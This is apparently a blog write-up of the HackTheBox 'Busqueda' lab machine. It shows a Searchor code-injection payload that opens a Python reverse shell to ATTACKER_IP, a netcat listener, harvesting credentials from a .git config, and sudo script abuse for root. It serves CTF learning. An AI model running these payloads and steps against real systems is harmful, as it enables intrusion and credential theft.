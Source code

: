 ```yaml
---
layout: post
title: Busqueda
date: 2023-05-22 12:00 +0700
categories: [HTB, easy]
---
```


### Introduction

[Busqueda] is an easy CTF machine on HackTheBox focused on exploiting a **searchor** vulnerability and vuln a script code.

![Card](https://www.hackthebox.com/storage/avatars/a6942ab57b6a79f71240420442027334.png)

---

Let's start scanning the machine with nmap.
Like we can see, there are open the ssh port and http port.

```sh
nmap -sSV -p- -open --min-rate 5000 <IP> -oN <outputfile.txt>
```

![scan](/images/HTB/busqueda/Captura.PNG)

Let's look at the website, to see what we find.

Oh, we need to put the target IP in our ***/etc/hosts***

![no web](/images/HTB/busqueda/Captura2.PNG)

```sh
nano /etc/hosts
```

![hosts](/images/HTB/busqueda/Captura3.PNG)

Once this is done, we can now view the web page.

It seems to be a multiple search engine APP.

![Web](/images/HTB/busqueda/Captura4.PNG)

Let's research a bit about the app to see if there are vulnerabilities.

![version](/images/HTB/busqueda/Captura5.PNG)

Researching a bit, we can find a vulnerability [PoC], that can be useful to exploit it.

![PoC](/images/HTB/busqueda/Captura6.PNG)

We prepare the exploit.

```sh
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ATTACKER_IP',PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#
```

![Exploit](/images/HTB/busqueda/Captura7.PNG)

Start a listener.

```sh
nc -lvnp 4444
```

![nc listener](/images/HTB/busqueda/Captura8.PNG)

And we execute it, if all is correct we get our reverse shell.

***If we want to upgrade to an interactive shell, we can do the following.***

```sh
script /dev/null -c bash
^Z
stty raw -echo; fg
reset xterm
```

![nc conn](/images/HTB/busqueda/Captura9.PNG)

We can see we are in with the user **svc**.

```sh
whoami
ls /home
```

![whoami](/images/HTB/busqueda/Captura10.PNG)

If we want to get the user flag, we can go to his home directory.

```sh
cd /home/svc
ls -la
```

![ls home](/images/HTB/busqueda/Captura11.PNG)

Now is time to start to find how to elevate our privileges.

Looking back in the **app** directory, we can find a **.git**.

```sh
cd /var/www/app
ls -la
```

![ls app](/images/HTB/busqueda/Captura12.PNG)

If we research a little, we find a **config** file with credentials.

```sh
cd .git
ls -la
cat config
```

![cody+pass](/images/HTB/busqueda/Captura13.PNG)

Let's add the site in our **/etc/hosts**.

```sh
nano /etc/hosts
```

![hosts](/images/HTB/busqueda/Captura14.PNG)

![gitea](/images/HTB/busqueda/Captura15.PNG)

We are logged in with cody, but looking up and down, we can't find anything interesting.

![cody gitea](/images/HTB/busqueda/Captura16.PNG)

Trying the password with the user **svc** it seems to be his password.

We can see that we can execute a python script with sudo.

```sh
sudo -l
```

![sudo -l](/images/HTB/busqueda/Captura17.PNG)

Let's try to execute it and see what does.

```sh
sudo /usr/bin/python3 /opt/scripts/system-checkup.py .
```

![script](/images/HTB/busqueda/Captura18.PNG)

It seems to have 3 options to launch, let's try to list the containers that are running.

We can see that there are two containers, but we are going to focus on the **gitea** one, to see if we can get the administrator credentials.

```sh
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
```

![docker-ps](/images/HTB/busqueda/Captura19.PNG)

Following the [documentation] instructions, we can get low-level information on Docker objects.

```sh
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' 960873171e2e
```

And we got admin credentials!

![gitea pass](/images/HTB/busqueda/Captura20.PNG)

![admin login](/images/HTB/busqueda/Captura21.PNG)

The is a scripts repository, let's inspect it.

![script code](/images/HTB/busqueda/Captura22.PNG)

Here we can find the python script code, and there is a piece of code that seems that we can vuln.

![full](/images/HTB/busqueda/Captura23.PNG)

We create a .sh script to get our root shell.

***Remember to set execute permissions***

```sh
cat full-checkup.sh
```

![cat sh](/images/HTB/busqueda/Captura24.PNG)

And execute it, if all runs correct we are in with root and can get the last flag.

```sh
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
ls /root/
^D
```

And with this we have finished the machine.

![execute checkup](/images/HTB/busqueda/Captura25.PNG)



[Busqueda]:https://app.hackthebox.com/machines/Busqueda
[PoC]:https://github.com/jonnyzar/POC-Searchor-2.4.2
[documentation]:https://docs.docker.com/engine/reference/commandline/inspect/
